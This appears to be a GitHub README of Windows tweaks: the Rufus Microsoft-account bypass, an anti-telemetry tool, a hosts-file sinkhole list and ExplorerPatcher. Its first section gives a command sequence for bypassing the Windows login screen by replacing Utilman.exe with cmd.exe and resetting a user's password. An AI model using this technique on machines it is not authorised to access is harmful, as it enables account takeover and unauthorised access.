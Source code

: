 # **Windows Setup**
Guide on certain things Windows, removing bloat ware, freeing the system of microsofts spyware and restoring lost functionalities

![Wondows-11-Start-661424496](https://github.com/martinjrrr/windows-tricks/assets/91160845/ba9bde7e-cc04-427b-af04-5b11bc566f03)

_______________________________________________________________________________

# Cracking a windows password / bypassing the login screen

Boot Into Your Flash Drive And Type These Commands

`fdisk -l`

`mount -t ntfs /dev/(windows drive) /mnt`

`cd /mnt/Windows/System32`

`cp cmd.exe Utilman.exe`

reboot

Click On The Accesibility Button And Type This Command When The CMD Window Lauches

`net user (User) *` 

## If you try to mount the Windows drive and get an error of hibernation just use the command:

`sudo ntfsfix /dev/sdXY`

ITS POSSIBLE THAT THIS COMMAND CORRUPTS THE WINDOWS FILESYSTEM, KNOW THE POSSIBLE CONSEQUENCES BEFOREHAND 
________________________________________________________________________________

# Windows 11 Local user - bypass Microsoft Account requirement

[Rufus](https://rufus.ie/de/)

<img src="https://github.com/martinjrrr/windows-tricks/assets/91160845/82d2d0ae-7bd3-4c06-9d8a-7f0fd438afd0" width=50% height=50%>

Use the Rufus image writing tool to create bootable USB drives

If you feed a Windows 11 22H2 image or later into Rufus you'll get the option to disable the Microsoft Account requirement as well as the TPM 2.0 and Secureboot requirement, if you do not want to use a Microsoft account or you want to use older Hardware that does not support Secureboot or have a Trusted Platform Module (TPM) these options are a must for your new Windows 11 install USB-Stick.



_______________________________________________________________________________

# Anti-Spyware Tool

[O&O Shutup10](https://www.oo-software.com/de/shutup10)

Kill Spyware and unnecesary bloat in Windows using this utility

make sure that you read trough your selections, this tool can temporarily block key system functions / settings

________________________________________________________________________________

# Host file sinkholing Spyware

    127.0.0.1 localhost
    ::1 localhost
    127.0.0.1 data.microsoft.com
    127.0.0.1 msftconnecttest.com
    127.0.0.1 azureedge.net
    127.0.0.1 activity.windows.com
    127.0.0.1 bingapis.com
    127.0.0.1 msedge.net
    127.0.0.1 assets.msn.com
    127.0.0.1 scorecardresearch.com
    127.0.0.1 edge.microsoft.com
    127.0.0.1 data.msn.com


# Windows 10 Functionality and Patches for Windows 11

Valinet's ExplorerPatcher restores lost Windows 10 functionalities

[Explorer Patcher](https://github.com/valinet/ExplorerPatcher)

![7cdf0ca053358108](https://github.com/martinjrrr/windows-tricks/assets/91160845/47a6be46-808c-4ead-bcf1-5fd76a711728)

